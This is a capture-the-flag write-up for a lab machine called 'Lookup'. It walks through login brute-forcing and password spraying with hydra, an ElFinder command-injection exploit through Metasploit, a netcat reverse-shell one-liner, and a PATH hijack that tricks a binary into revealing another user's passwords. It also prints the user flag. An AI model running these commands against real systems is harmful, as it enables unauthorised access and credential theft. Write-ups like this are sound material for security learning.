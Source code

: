 ![image](https://github.com/user-attachments/assets/8c3377e0-2f44-473a-b0e1-640f0f3d9efd)# Lookup
(flags are at the end of the writeup)

### Lookup
Initial scan shows port 22 and 80 open: 

    # Nmap 7.94SVN scan initiated Wed Nov 27 17:24:12 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sC -sV -oN scan 10.10.65.102
    Nmap scan report for lookup.thm (10.10.65.102)
    Host is up (0.061s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
    |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
    |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Login Page
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

If I try to access the webpage, I get redirected to `lookup.thm`:<br />
![image](https://github.com/user-attachments/assets/084acc68-fc20-4967-b497-99d031da7a78)<br />
So add the following line `10.10.65.102 lookup.thm` to the `/etc/hosts` file. It seems like a basic login page. If I try to access with basic credentials such as `admin:password`, I get the following response:<br />
![image](https://github.com/user-attachments/assets/c71eabe3-d2be-4cca-8991-91672308e8a7)<br />
Which is a weird way of handling errors. I tried `sqlmap` but nothig. I have to dig somewhere else.<br />
Next thing I try is to enumerate directories using gobuster: `gobuster dir -u lookup.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt` but nothing was found. <br />
Now I try to enumerate subdomains. I found the subdomain `www.lookup.thm` but it's the same as `lookup.thm` so nothing there. Next, I noticed that if I tried looking with user `admin`, I get the reponse "Wrong password". But if I try to log in with, for example, "john", I get "Wrong username or password." This means that admin should be a valid user. So I try to login into the admin's account using bruteforce with hdyra: `hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password"` and it finds something!<br />
![image](https://github.com/user-attachments/assets/d3a9e3c4-b445-4844-bbc6-d38ed1491c6b)<br />
Login fails.. but something strange happens, look:<br />
![image](https://github.com/user-attachments/assets/cec66cdd-cebc-4e4f-8685-5639592ea325)<br />
If I use credentials `admin:password123`, the server responds with "Wrong username or password", which is incoherent with the fact that admin is a valid user. This is really strange and I'm not sure why it behaves like that. But my guess is that it might do this for some server misconfiguration which shows this message if the password is a valid password! So the server might have this weird behaviour:

    1) if username and password are correct --> successful login
    2) if username is incorrect --> wrong username or password
    3) if username is correct but password doesn't exist on the DB --> wrong password
    4) if username is correct and password exists on the DB, but they don't match --> wrong username or password

I know, it's strange, but I don't have any other explanation for that. So since `password123` might be valid, let's try a password spraying attack! I'll bruteforce usernames using this password with hydra: <br />
![image](https://github.com/user-attachments/assets/b9781d2c-324f-47ca-b71d-aee99e19416c)<br />
I found a valid set of credentials! `jose:password123`. If I try to log in, I get redirected to `files.lookup.thm`, so let's add it on the /etc/hosts file.<br />
![image](https://github.com/user-attachments/assets/ff5d452a-3f5b-4b33-b7c2-994bad37727b)<br />
ElFinder is an opensource file management software that wants to offer a desktop-like experience. The version is `2.1.47`. Searching online, I found that this version is vulnerable to command injection, and the exploit is available on metasploit! So open `msfconsole` and run the exploit with the following commands:

    use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
    set lhost YOUR_IP
    set rhosts files.lookup.thm
    run

And it should open a meterpreter session. Now, I can't use metasploit, so I used the `shell` command to drop to a system shell, and then opened a reverse shell on another terminal because I really don't know how to use meterpreter very well, I need to do a tutorial. For the reverse shell I opened a netcat listener on my machine and then used then from the dropped shell I run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.90.188 5555 >/tmp/f`.
First thing I notice: the user `think` has the user flag, and inside his home directory I see a `.passwords` file that I can't read. So my guess is that I need to find a way to read that file. <br />
Using linpeas on the target system, I found an interesting binary that might be exploited:<br />
![image](https://github.com/user-attachments/assets/883cfbee-381e-4cee-953c-747b15f65b58)<br />
This is how it behaves: <br />
![image](https://github.com/user-attachments/assets/5122c223-5870-418f-bfa3-8e5f482aa70d)<br />
So it runs the `id` command to find out the user, and then looks for `/home/%user%/.passwords`. I think that my goal is to somehow fool this binary into believing that I'm actually the user `think`.<br /><br />
I decided to analyze this binary using IDA. Here's the main structure: <br />
![image](https://github.com/user-attachments/assets/20a4cbee-8f1d-47d6-882d-74d6eac5f44a)<br />
I'm used to work with the CDECL or STDCALL calling conventions from university, because we only analyzed 32 bit windows executables. This is the first time I'm trying to analyze an ELF file, but it seems very similar. The main diffence I need to know is that the arguments of functions are not pushed on the stack, but are stored on registers. Specifically `rdi`, `rsi`, `rdx` and `rcx`.<br /><br />
From this first block we can see that the binary is calling `popen` with `id` as parameter, so it wants to execute the `id` system command. <br />
This is another interesting block: <br />
![image](https://github.com/user-attachments/assets/7657b367-a033-4068-bd89-6c77f12c19f8)<br />
The binary takes the stdoutput of the `id` command, and then ignores the user-ID (the integer) and only considers the username. Here "uid=%u(%[^)])" is a paramenter of `fscanf` which specifies to ignore the UID, and only take the string that is inside the first two parenthesis. For example, if I now run `id`:<br />
![image](https://github.com/user-attachments/assets/913cb855-f12b-4eb4-aa56-401d2b9031e9)<br />
This binary will only consider the string underlined in red, which is `www-data`.<br />
At this point it tries to read the .passwords file, just like I guessed earlier:<br />
![image](https://github.com/user-attachments/assets/c9b61b17-9bc3-4016-a479-07e23c67c7b0)<br />
So I think I know where the vunlnerability lies. The binary is calling the `id` command, but not `/usr/bin/id` or whatever; the path is relative, not absolute. This means that I can create a custom `id` command on any directory, for example /tmp/, and then change the `PATH` environment variable to search for binaries inside /tmp/ first. So let's try it. I created the custom `id` command inside /tmp/, and it prints echos a string on stdoutput, built to fool the `pwm` binary that I'm actually the user `think`. The code can be found in this folder in the file `fake_id`. Remember to make it executable with `chmod +x id`. Now we want to change the PATH environment variable: run `export PATH=/tmp:$PATH`. Now if I run `id`:<br />
![image](https://github.com/user-attachments/assets/6cbecb52-7293-410e-8376-a33ac0de5a40)<br />
It executes my `fake_id`. The setup is ready, let's run the vulnerable binary: <br/ >
![image](https://github.com/user-attachments/assets/1c753f57-ae4f-4d84-a83c-e1c1700bf7ba)<br />
It worked! We have a list of passwords! I will now copy this wordlists in a file, and then will use it to bruteforce an ssh login as the user `think`. The command is `hydra -l think -P passwords ssh://10.10.124.210`. And the credentials are `think:josemario.AKA(think)`.






- What is the user flag? `38375fb4dd8baa2b2039ac03d92b820e`
- What is the root flag?
